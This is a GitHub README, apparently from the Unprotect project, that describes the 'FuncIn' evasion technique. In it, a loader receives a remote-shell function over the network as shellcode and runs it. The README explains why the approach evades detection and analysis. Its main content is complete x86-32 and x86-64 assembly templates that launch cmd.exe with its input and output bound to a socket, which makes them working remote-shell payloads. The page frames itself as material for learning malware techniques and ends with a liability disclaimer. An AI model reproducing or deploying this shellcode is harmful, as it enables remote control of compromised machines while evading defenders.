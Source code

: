 # FuncIn Unprotect Evasion Technique Demo

![Banner](Assets/banner.png)

## Description

This demonstration showcases the utilization of FuncIn evasion technique for spawning a remote shell. Instead of embedding the remote shell code directly within the loader, the entire remote shell function is transmitted over the network as a Just-In-Time (JIT) compiled shellcode. Subsequently, it is executed on a dedicated thread of the loader.

This project serves as a template for both practicing and comprehending how malware authors employ advanced techniques to create highly compact and optimized malware. Furthermore, these techniques introduce additional complexity to the reverse engineering process. Unlike conventional methods where the final payloads are directly embedded inside the loader or stored elsewhere (Ex: web server, third part file), this approach involves transmitting them over the network.

The modular nature of the malware, with the final payloads not being directly included in the loader, enhances its evasiveness. The transmitted payloads may also be optionally encrypted or obfuscated, adding an extra layer of defense against detection and analysis. Additionally, the malware may be configured to listen for specific events or behaviors before triggering the transmission of the payload.

## Video

![Video Demo](Assets/video.gif)

## Feature

* Remote Shell
* Support both x86-32 and x86-64 host process.
* Full interoperability between x86-32 Controller and x86-64 Loader and vis-versa.
* Designed to be easily extended in feature for practicing and learning purpose.

## Changelog

## 21 Dec 2023

* Python version of the controller added

## 15 Dec 2023

* x86-64 version of the FuncIn Shellcode implemented
* Few Improvements

## 13 Dec 2023

* Release (Delphi Loader & Controller)

## FuncIn Code Templates

### x86-32

```nasm
; @DarkCoderSc
mov ebp, esp
sub esp, 0x4
mov edx, <SizeOf(TStartupInfoA)>
sub esp, edx
mov edi, esp
mov ecx, edx
xor eax, eax
rep stosb
mov esi, <SocketFd>
mov dword ptr [esp], edx
mov dword ptr [esp + 0x2c], 0x101
mov word ptr [esp + 0x30], 0x0
mov dword ptr [esp + 0x38], esi
mov dword ptr [esp + 0x3c], esi
mov dword ptr [esp + 0x40], esi
mov esi, esp
sub esp, <SizeOf(TProcessInformation)>
mov [ebp-0x4], esp
push 0x00657865
push 0x2E646D63
mov edx, esp
xor eax, eax
push [ebp-0x4]
push esi
push eax
push eax
push 0x10
push 0x1
push eax
push eax
push edx
push eax
mov eax, <CreateProcessA>
call eax
xor eax, eax
dec eax
push eax
mov eax, [ebp-0x4]
push [eax]
mov eax, <WaitForSingleObject>
call eax
xor eax, eax
push eax
mov eax, <ExitThread>
call eax
```

### x86-64

```nasm
; @DarkCoderSc
mov r15, <SizeOf(TStartupInfoA)>
sub rsp, r15
mov rdi, rsp
mov rcx, r15
xor rax, rax
rep stosb
mov r14, <SocketFd>
mov qword ptr [rsp], r15
mov dword ptr [rsp + 0x3c], 0x101
mov word ptr [rsp + 0x40], 0x0
mov qword ptr [rsp + 0x50], r14
mov qword ptr [rsp + 0x58], r14
mov qword ptr [rsp + 0x60], r14
mov r14, rsp
sub rsp, <SizeOf(TProcessInformation)>
mov r15, rsp
mov rax, 0x006578652E646D63
push rax
mov r13, rsp
xor rax, rax
mov rcx, rax
mov rdx, r13
xor r8, r8
xor r9, r9
push r15
push r14
push rax
push rax
xor rbx, rbx
mov bl, 0x10
push rbx
inc rax
push rax
dec rax
push rax
push rax
push rax
push rax
mov rax, <CreateProcessA>
call rax
mov rcx, r15
mov rcx, [rcx]
xor rdx, rdx
dec rdx
mov rax, <WaitForSingleObject>
call rax
xor rcx, rcx
mov rax, <ExitThread>
call rax

```

## Greetings goes to

- [Keystone Engine](https://www.keystone-engine.org)

For their awesome open-source engine which facilitate shellcode development and maintenance.

## Disclaimer

🇺🇸 All source code and projects shared on this Github account by Unprotect are provided "as is" without warranty of any kind, either expressed or implied. The user of this code assumes all responsibility for any issues or legal liabilities that may arise from the use, misuse, or distribution of this code. The user of this code also agrees to release Unprotect from any and all liability for any damages or losses that may result from the use, misuse, or distribution of this code.

By using this code, the user agrees to indemnify and hold Unprotect harmless from any and all claims, liabilities, costs, and expenses arising from the use, misuse, or distribution of this code. The user also agrees not to hold Unprotect responsible for any errors or omissions in the code, and to take full responsibility for ensuring that the code meets the user's needs.

This disclaimer is subject to change without notice, and the user is responsible for checking for updates. If the user does not agree to the terms of this disclaimer, they should not use this code.

**Unprotect refers to the team dedicated to the maintenance and development of projects under the Unprotect umbrella.**
